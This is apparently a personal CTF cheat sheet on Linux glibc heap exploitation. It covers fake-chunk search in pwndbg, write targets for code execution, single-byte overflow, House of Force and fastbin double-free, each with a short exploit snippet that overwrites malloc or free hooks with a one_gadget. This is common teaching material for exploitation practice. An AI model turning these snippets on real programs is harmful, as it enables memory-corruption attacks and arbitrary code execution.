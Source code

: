 # Linux Heap

### General

Find good fake chunk values in pwndbg:

```text
find_fake_fast &__malloc_hook
```

### Possible Arbitrary Write Targets for Code Exec

```text
got/plt (global offset table/procedure linkage table)
fini_array (called on program exit, protected by pointerguard)
heap (if there are function pointers)
tls_dtor_list (similar to fini array, protected by pointerguard)
malloc_hook & free_hook
```

### Single Byte Overflow

If we can overflow a single byte we can change the size of the following chunk. If this chunk is then freed, this larger size is considered. If we now allocate this enlarged chunk again, we can fully overflow into following chunk! Usually you would do the following setup to overflow into chunk B:

```python
add(0x38, 'A'*0x38)
add(0x38, 'B'*0x38)
add(0x38, 'C'*0x38)
add(0x38, 'D'*0x38)
free(3)
free(0)
add(0x38, b'A'*(0x38)+p64(0x70)) # idx 0
free(1)
free(2)
add(0x68, b'D'*0x40+p64(free_hook)) # idx 1
add(0x38)
add(0x38, p64(one_gadget))
```



### Null Byte Poisoning / Overflow

### 

### House Of Force

Libc: libc-2.28.so

Overwrite size field of top chunk \(e.g. via full heap overflow\). Top chunk can extend down on heap, over libraries, into stack. We can also make it so large so it wraps around and points back into the heap. The following snippet writes a large value into the top chunk size field and then requests just enough space to get us to malloc hook so we can set it to an arbitrary value:

```text
malloc(24, b"A"*24 +p64(0xfffffffffffffff1))
malloc((libc.sym.__malloc_hook - 0x20) - (heap + 0x20), "A")
malloc(24, p64(0xdeadbeef))
```

### Fastbin Dup

Libc: glibc-2.30

Fastbins are singly linked lists \(LIFO\). The heap arena can only store 1 address per size, so the pointer to the next elements are stored in the heap metadata next to the user data.

#### Via Double Free

Some Libc Versions have a check for double free, which checks that the top entry in the bin is not identical to the one that is being added. This can be bypassed by making sure "a" is not on top when freeing "a" again: 

```python
a=add()
b=add()
free(a)
free(b)
free(a)
```

A full exploit  could look like this:

```python
chunk_A = malloc(0x68, "A"*0x68)
chunk_B = malloc(0x68, "B"*0x68)
free(chunk_A)
free(chunk_B)
free(chunk_A)

dup = malloc(0x68, p64(libc.sym.__malloc_hook - 35))
malloc(0x68, "C")
malloc(0x68, "D")
malloc(0x68, b"A"*19+p64(libc.address + one_gadget))
```

We get a chunk twice into the fastbin list, overwriting the linked list pointer on the next malloc. We then "use up" the contents of the fastbin until we get the allocation at malloc hook.

When looking for valuable fake chunk targets we can also put one into the main arena directly \(first write size field, then allocate fake chunk\).

